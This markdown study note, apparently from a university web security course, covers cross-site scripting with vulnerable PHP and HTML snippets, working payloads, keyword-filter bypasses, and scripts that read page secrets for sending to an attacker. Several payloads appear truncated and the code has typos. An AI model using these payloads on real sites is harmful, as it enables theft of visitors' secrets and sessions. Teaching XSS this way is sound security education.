

# XSS attack
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites
## Reflected XSS attack
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

Suppose we have this kind of code
```php
<?php
echo "<H1>Welcome to the XSS world</H1>";
echo "<p>Current User: ". $_GET['user'] . "</p>";
?>
```
What if we make request with parameter `user` equal to `abdirakhman</p><script>alert("xss")</script><p>` 
Our website will look like this
```html
...
<h1>Welcome to the XSS world</h1>
<p>Current User: abdirakhman</p><script>alert("xss")</script><p>
...
```
And it will alert `xss` message. So we see here that we can make malicious request that will trigger to run malicious code.
## Basic pattern for reflected XSS
1. Visit the attacker website
2. Receive malicious link 
3. Click on that link
4. Get the secret data
5. Send it to attacker website

## Filtering out JS Keywords
If we have js keyword filter like this
```php
<?php
$name = $_GET['name'];
$name = preg_replace("/(script|object)/i", "", $name);
echo "<H1>Welcome to the XSS world</H1>";
echo "<p>Current User {$name} </p>";
?>
```
We can easilty bypass it by providing this kind of payload.
```
http://target.com/vuln.php?name=</p><scscriptript>alert("xss");</scscriptript><p>
```
## Injection inside Script Elements
Suppose we have this kind of website
```html
<head>
<title>Vulnerable</title>
<body>
    <?php
        $id = $_GET["id"];
        $passwd = $_GET["passwd"];
    >
    ...
    <script type="text/javascript" defer>
        let k = 10;
        let id = <?=$id?>;
        let passwd = "<?=$passwd?>";
        ...
    </script>
</body>
</head>
```
What will happen if we place `?id=1;/*&passwd=*/alert(1);//` as payload. It will comment let passwd part and will alert(1).
## No script and Alert keywords
If we have following code
```html
<head>
<title>CS492</title>
<body>
<?php
$name = $_GET['name'];
$name = preg_replace("/(script|object|alert|prompt)/i", "", $name);
?>
...
<body>
<p> Your name is <?=$name?>. Hello! Nice to meet you. </p>
...
```
We can make payload as `</img>`, which same as `</img>`
## Injecting Code in Image Tag Src
Suppose we have following code
```html
<head>
<title>Vulnerable</title>
<body>
<?php
$name = $_GET['name'];
?>
...
<body>
<p> Your image goes here
" />
You are supposed to see a valid image.
</p>...
```
Here we can make payload as `x" onerror='alert(1)'`, which will run alert(1).
## Bypassing htmlspecialchars
Suppose we have following website
```html
<head>
<title>CS492</title>
<body>
<?php
$name = $_GET['name'];
// Convert "<a href='test'>Test</a>" into &lt;a href=&#039;test&#039;&gt;Test&lt;/a&gt;
$name = htmlspecialchar($name, ENT_QUOTES, "UTF-8");
?>
...
<body>
<p> Your link <a href = <?=$name?>> here is going to redirect you </p>...
```
We can here make a payload as `javascript:alert(1)`. If user presses that link it will trigger alert(1).
## Retrieve Info and Send the Info
Usually hacker want to send the secret data from website to his own website. In order to do so, hacker can do this kind of payload on following website.
```html
<head>
<title>CS492</title>
<body>
<span id= 'secret'> Your Secret! </span>
<?php
$name = $_GET['name'];
>
...
<body>
<p> Your name is <?=$name?> here </p>….
``` 
Payload is `name=<script>let sec = document. getElementById("secret").innerText;document.body.innerHTML += "";</script>`.
## Retrieve Info in Another Page
Suppose our secret is in iframe.
```html
<head>
<title>CS492</title>
<body>
<iframe id='x' src='sensitive.php'></iframe>
<?php
$name = $_GET['name'];
>
...
<body>
<p> Your name is <?=$name?> here </p>...
```
`sensitive.php`
```html
<head>
<title>CS492</title>
<body>
<span id= 'secret'> Your Secret! </span>
```
Then we can simply make this kind of payload `name=<script>let sec=x.contentDocument.getElementById("secret").innerText;document.body.innerHTML += "";</script>` which will send the secret to attacker's website.
## Stored XSS
Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.

Usually stored xss attack looks like this:
1. Hacker discovers a website having a vulnerability that enables script injection.
2. Hacker injects the website with a malicious script that steals each visitor's session cookies.
3. For each visit to the website, the malicious script is activated.
4. Visitor's session cookie is sent to the hacker.
5. (There might be case that photo uploaded is script.)
## DOM-based XSS
An attack payload is executed by modifying the DOM "environment" used by the original client side script
## DOM-based XSS example
```html
<script>
document.write(
"<b>Current URL</b> : " + document.baseURI);
</script>
```
If our payload is
`https://mysite.com/showme_profile.php#<script>alert(‘xss’)</script>` script tag will be added.

## DOM-based XSS Attacks
```html
<head>
<title>CS492</title>
<body>
<strong id=‘tgt’> Injection Target! </strong>
<script defer>
let name = decodeURIComponent(document.location.hash);
name = name.substr(1);
document.querySelector('#name').innerHTML = name;
</script>
```
Payload is `http://target.com/vulnerable.php#`.
## Client-side XSS Attack
```html
<head>
<title>CS492</title>
<body>
<script>
function addCookie() {
eval("document.cookie='myHash=" +
window.location.hash.split("#")[1] + "'");
}
addCookie();
</script>
```
If we have this payload `http://target.com/vulnerable.php#apple';alert(1);//` it will change to 
```html
<script>
eval("documemnt.cookie='apple';alert(1);//' ");
</script>
```
## Client-side XSS Examples
Suppose if we have 
```html
document.write('<a link onclick="' +document.baseURI + '"><\a>');
```
We can make payload as `"></a><script>alert ('XSS')</script><textarea>`. And it will be tranformed to `<a link onclick="myaddress.com#"><script>alert (' XSS ')</script><textarea>><\a>`.
And if we have this kind of html file
```html
document.write("<script> var url=escape('" +document.baseURI +"';dosomething()><\script>");
```
We can make payload as `');alert ('XSS');//`. And it will be converted to `<script> var url=escape('myaddress.com#');alert ('XSS');//;dosomething()><\script>`.

## postMessage
In order to communication between websites we can use postMessage. But many of them do not check origin of the messenger. We can use that to make some attacks. To prevent this kind of attacks we need to check the origin attribute to ensure that messages are only accepted from domains that they expect to recieve messages from.
In this table you can see common ways to bypass origin checks.

## JSONP XSS
There is a case that your application needs to invoke a certain function on cross-origin data.
* Assume there is a weather service Web that provides the current temperature (weather.com)
* Your JS application runs in wsp.kaist.ac.kr
* How can your JS application reference info from weather.com?
In order to solve this problem we can use JSONP.
```html
//wsp.kaist.ac.kr
<script>
function read(json) {
document.write(json.temp)
}
</script>
<script
src="http://weather.com/jsonp?callback=read"></script>
```
weather.com/jsonp?callback=read
```js
read([{
"temp": 36
"location": "KAIST"
}])
```
What if we write to callback `alert(‘xss’);read`. We can notice that it will run alert code.

## Further reading
* https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
